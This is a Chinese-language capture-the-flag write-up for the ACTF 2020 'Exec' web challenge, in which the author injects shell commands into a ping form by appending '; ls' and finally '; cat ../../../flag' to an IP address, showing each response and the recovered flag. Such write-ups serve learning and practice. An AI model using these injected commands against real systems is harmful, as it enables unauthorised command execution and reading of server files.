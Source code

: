 ```yaml
---
title: ACTF 2020 新生赛 Exec
date: 2023-10-24
categories:
  - CTF
  - Web
---
```


## 前置工作

打开靶机，看到如下画面，标题叫 `command execution`，他的页面上看他能 PING，于是我就 PING 了一下 127.0.0.1，看起来像是 Linux 系统的 PING

![](https://p.sda1.dev/13/f3becaa967e319af51db168013617399/image.png)

## 并行命令

不由得想试试看接上分号 `;` 后进行命令并行，那就先传入一个 `127.0.0.1; ls ./`，回应如下

```
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.078 ms
64 bytes from 127.0.0.1: seq=1 ttl=42 time=0.106 ms
64 bytes from 127.0.0.1: seq=2 ttl=42 time=0.136 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 packets received, 0% packet loss
round-trip min/avg/max = 0.078/0.106/0.136 ms
index.php
```

貌似没有 Flag，那就再传入 `127.0.0.1; ls ../`，回应如下

```
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.071 ms
64 bytes from 127.0.0.1: seq=1 ttl=42 time=0.133 ms
64 bytes from 127.0.0.1: seq=2 ttl=42 time=0.113 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 packets received, 0% packet loss
round-trip min/avg/max = 0.071/0.105/0.133 ms
html
localhost
```

还是没有 Flag，那就再试 `127.0.0.1; ls ../../`

```
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.097 ms
64 bytes from 127.0.0.1: seq=1 ttl=42 time=0.137 ms
64 bytes from 127.0.0.1: seq=2 ttl=42 time=0.131 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 packets received, 0% packet loss
round-trip min/avg/max = 0.097/0.121/0.137 ms
cache
empty
lib
local
lock
log
mail
opt
run
spool
tmp
www
```

再上面就是根目录 `/` 了，只能再试试看 `127.0.0.1; ls ../../../`

```
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.104 ms
64 bytes from 127.0.0.1: seq=1 ttl=42 time=0.126 ms
64 bytes from 127.0.0.1: seq=2 ttl=42 time=0.100 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 packets received, 0% packet loss
round-trip min/avg/max = 0.100/0.110/0.126 ms
bin
dev
etc
flag
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

终于看到了一个叫 `flag` 的文件，我们尝试下去读取他 `127.0.0.1; cat ../../../flag`，得到 Flag

```
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.097 ms
64 bytes from 127.0.0.1: seq=1 ttl=42 time=0.149 ms
64 bytes from 127.0.0.1: seq=2 ttl=42 time=0.123 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 packets received, 0% packet loss
round-trip min/avg/max = 0.097/0.123/0.149 ms
flag{c6000520-b03d-49c8-a628-2d26af095af7}
```